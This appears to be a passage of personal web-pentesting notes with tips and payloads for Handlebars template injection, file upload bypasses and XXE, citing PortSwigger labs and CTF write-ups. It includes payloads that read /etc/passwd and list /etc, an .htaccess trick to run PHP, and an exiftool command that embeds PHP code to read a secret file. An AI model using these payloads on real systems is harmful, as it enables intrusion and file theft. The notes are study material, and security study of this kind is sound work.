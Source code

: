 #### Handlebars / Mustache
```java
<h1>Hello {{name}}</h1>
{{#if nicknames}}
Also known as:
  {{#each nicknames}}
      {{this}}
  {{/each}}
{{/if}}

We are using handlebars locally in your browser to generate this template
```
  - Mustache is logic-less only supports `if` statements
  - Mustache is too restrictive thats why handlebars was created.
  - check if Handlebars uses helpers specially `read` and `readdir` `{{read "/etc/passwd"}}`
```java
{{#each (readdir "/etc")}}
{{this}}
{{/each}}
```

- Craft CMS SSTI
  - vulnerable sprout forms plugin
  - blind ssti


#### TPLMap

- Python2 only 
- Snowscan usage of TPLmap on OZ HTB - [Snowscan](https://snowscan.io/htb-writeup-oz/#)

### File Upload

[PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- Change **_Content-Type_**
- For Apache web servers try uploading **_.htaccess_** with the following contents
  - `AddType application/x-httpd-php .l33t` this will allow the extension `.l33t` and treat it as php. Learned from portswigger lab (although .phtml worked in their lab xD)
- add nullbyte and check if the web app strips the nullbyte and .jpg at the end.
- magic bytes
  - upload a normal image strip some of the contents leave the magic bytes at the beginning then append your payload.
  or
  - `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
- Race condition? for fileuploads that checks for viruses etc. might have a small window that we can execute a php payload. use turbo intruder. [Portswigger Lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)


### XXE

- [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- Check white spaces - only one newline from header!
- [Informit](https://www.informit.com/articles/article.aspx?p=27006&seqNum=3) XML structure
- Delete % from payloads you get in PayloadAlltheThings.
